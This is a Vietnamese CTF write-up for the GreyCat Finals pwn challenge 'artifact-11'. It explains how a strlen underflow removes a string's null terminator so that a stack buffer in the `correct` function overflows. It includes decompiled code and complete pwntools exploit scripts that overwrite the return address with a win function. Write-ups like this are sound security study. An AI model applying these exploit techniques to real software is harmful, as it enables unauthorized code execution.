

# Artifact-11

Đầu tiên, mình liền thử checksec:

```bash
[*] '/home/huhu/CTF-writeups/ctf/greycatFinal/pwn1/artifact-11'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Bài đầu tiên của final khá đơn giản, mình thấy chương trình sẽ chỉnh sửa byte nhập vào sau đó gọi strlen: </br>
Chương trình chính: </br>
```c
void __fastcall run(char *a1)
{
  char *v1; // [rsp+8h] [rbp-8h]

  give_introduction();       //print noti
  ask_for_string_input(a1);  //scanf 32 byte
  if ( *a1 )
  {
    change_first_character(a1);
    change_last_character(a1);
    v1 = add_new_characters(a1); //v1 là strings sau khi thêm từ "emy! <3"
    if ( suspicious_check(v1) ) //return strncmp(v1, "I love greycademy! <3", 0x15u) == 0;
      correct(v1);
    else
      wrong(v1);
    you_can_ignore_this_just_a_cleanup(v1);  //free 
  }
  else
  {
    puts("Nothing to change :(");
  }
}
```
Và chương trình sẽ cho mình nhập nhiều lần sau khi check xong: </br>
```c
  for ( i = (char *)calloc(0xAu, 0x21u); ; run(&i[33 * v4]) )
  {
    printf("Index > ");
    if ( (int)__isoc99_scanf("%u", &v4) <= 0 || v4 > 9 )
      break;
    do
      v5 = getchar();
    while ( v5 != 10 && v5 != -1 );
  }
  return 0;
```
Từ đó, ta có thể thay đổi dần dần strings của chương trình, ta có func như sau: </br>
```c
int __fastcall change_first_character(_BYTE *a1)
{
  puts("==================================================");
  puts("We shall change the first character of your input!");
  printf("%c >>> ", (unsigned int)(char)*a1);
  *a1 -= 32;
  return printf("%c\n", (unsigned int)(char)*a1);
}
```
Bởi vì strlen sẽ đếm byte phụ thuộc vào NULL, vậy nên, lần 1 mình sẽ tạo 1 string đầy đủ b"A"*32 ở index 0, sau đó tạo 1 strings p8(0x20), khi đó, chương trính sẽ thực hiện `*a1 = *a1 - 0x20`, và từ đó byte tại strings đó sẽ là NULL, chương trình sẽ tiếp tục gọi func sau đây:</br>

```c
int __fastcall change_last_character(const char *a1)
{
  size_t v2; // [rsp+18h] [rbp-8h]

  puts("==================================================");
  puts("We shall change the last character of your input!");
  v2 = strlen(a1) - 1;
  printf("%c >>> ", (unsigned int)a1[v2]);
  a1[v2] -= 16;
  return printf("%c\n", (unsigned int)a1[v2]);
}
```
strlen của 1 NULL string sẽ trả về 0, và nó sẽ bị trừ đi 1, khiến cho chương trình truy vấn byte cuối cùng ở index 0, và khiến cho nó từ 1 NULL BYTE sẽ trừ đi 0x10, và trở thành byte 0xf0, và chúng ta đã terminate NULL BYTE của string 0, minh họa cho việc terminate null byte: </br>


tiếp đó, ta chỉ cần nhập lại 32 byte tiếp theo ở index 1, và từ đây, ta đã khiến cho string 0 có độ dài là 62 byte và có thể overflow stack khi chương trình gọi func `correct`: </br>

ta buộc phải trigger correct vì correct sẽ:

```c
int __fastcall correct(const char *a1)
{
  char v1; // bl
  char v3[48]; // [rsp+10h] [rbp-50h] BYREF
  size_t v4; // [rsp+40h] [rbp-20h]
  int i; // [rsp+4Ch] [rbp-14h]

  puts("Correct! You shall get the flag now.");
  puts("If you are viewing this in IDA, please don't bother reversing me, it's not needed >:)");
  puts("(Unless you are confident and want some challenge)");
  srand(0x43u);                       //67
  v4 = strlen(a1);                    //gọi strlen
  for ( i = 0; i < v4; ++i )          //cho các giá trị ta đã chuẩn bị vào stack
  {
    v1 = a1[i + 1] ^ a1[i];
    v3[i] = rand() ^ v1 ^ KEY[i];     //rand vs key 
  }
  v3[v4] = 0;
  printf("Here's your flag: %s\n", v3);
  return puts("Hope you had fun! :)");
}
```
Trong khi đó, path wrong: </br>

```c
int wrong()
{
  puts("You did not get the memo :( shall we try again?");
  return puts("Goodbye!"); //sẽ không trigger bug
}
```

Cách mình trigger bug:

```python
from pwn import *

elf = ELF("./artifact-11")
context.log_level = 'debug'
gs = '''
c
b *0x4016b8
'''

key = 0x25aa14fdff496581

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

p = start()
p.send("0\n")
p.send(p8(0x89) + b" love greycademy! <3" + b"Z"*11)
p.send("1\n")
p.send(p8(0x20) + b"Z"*31)
p.send("1\n")
p.send(p8(0x99)*32)
p.send("2\n")
p.sendline(p8(0x20) + b"Z"*31)
p.sendline(b"0")
p.sendline(b"")

p.interactive()
```

Exploit script:

```python
from pwn import *

elf = ELF("./artifact-11")
context.log_level = "debug"

WIN = 0x40188e
START = b"I love greycademy! <3"

gs = """
c
b *0x4016b8
"""

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

#key của rand(67)
key_a = [0x8f, 0x5b, 0x2f, 0x9f, 0x95, 0x32, 0x9f, 4, 0x15, 1, 0xef, 0x9f, 0x7f, 0xf, 0xec, 0xde, 0x9d, 0xd9, 0xc6, 0xc3, 0x21, 0x94, 0xb0, 0xb0, 0x91, 0xe2, 0x64, 0x6a, 0x78, 0xe0, 0xa5, 8, 0x3b, 0xd5, 0xa7, 0xd0, 7, 0x47, 0xd4, 0x1c, 0x48, 0xc3, 0xbb, 0xc7, 0xd2, 0xa7, 0xa6, 0x6f, 0x81, 0x6c, 0x32, 0xa2, 0, 0xe2, 0x52, 0x91, 0xc4, 0xb7, 0xfc, 0x3d, 0x97, 0xa1, 0x45, 0xd2, 0x76, 0xec, 0xa2, 0x7d, 0x33, 0x76, 0x99, 0x7b, 0x39, 0x54, 0x43, 0xb, 0xfc, 0xe9, 0x7a, 0x7d, 0x55, 0xac, 0x1f, 0x55, 0x8f, 0x71, 0xe6, 0x53, 0x28, 0xe2, 0x90, 0xbf, 0x84, 0xd5, 0x91, 0xfa, 0xc2]
# key của chương trình
key_b = [
    0x25aa14fdff496581, 0x95903f25f9c67661,
    0x0000006fa2e9a8f5, 0x696d616620776f48,
    0x657261207261696c, 0x74697720756f7920,
    0x6e69646165722068, 0x65646f6320432067,
    0x616873206557003f, 0x20646e6966206c6c,
    0x00002e2e2e74756f, 0x70697420656d6f53,
    0x74276e6f44203a73, 0x69207972726f7720,
    0x6f6420756f792066, 0x65646e752074276e,
]
key_b = b''.join(map(p64, key_b))
#key cuối
KEY = bytes(a ^ b for a, b in zip(key_a, key_b))

#Tính chất của xor là để tìm lại giá trị của xor, ta xor tiếp nó, vì vậy chỉ cần xor cái này giống với chương trình đã làm là sẽ xong
A = [0x43] * 0x70
B = [None] * 0x70

for i in range(len(START)):
    A[i] = START[i]

B[0x30:0x38] = p64(0x70)
B[0x3c:0x40] = p32(0x3c)
B[0x58:0x60] = p64(WIN)

for i in range(len(B)):
    if B[i] is not None:
        A[i + 1] = B[i] ^ A[i] ^ KEY[i]

A[31] = (A[31] + 0x10) 
A[64] = (A[64] + 0x10) 
A[97] = (A[97] + 0x10) 
A[33] = (A[33] + 0x20) 
A[66] = (A[66] + 0x20) 
A[99] = (A[99] + 0x20) 

A[0] = (A[0] + 0x40) 

block0 = bytes(A[0:32])
block1 = bytes(A[33:65])
block2 = bytes(A[66:98])
block3 = bytes(A[99:112])


p = start()

p.sendline(b"0")
p.sendline(block0)

p.sendline(b"1")
p.sendline(b" ")
p.sendline(b"1")
p.sendline(block1)

p.sendline(b"2")
p.sendline(b" ")
p.sendline(b"2")
p.sendline(block2)

p.sendline(b"3")
p.sendline(b" ")
p.sendline(b"3")
p.sendline(block3)

p.sendline(b"0")
p.sendline(b"")

p.interactive()

```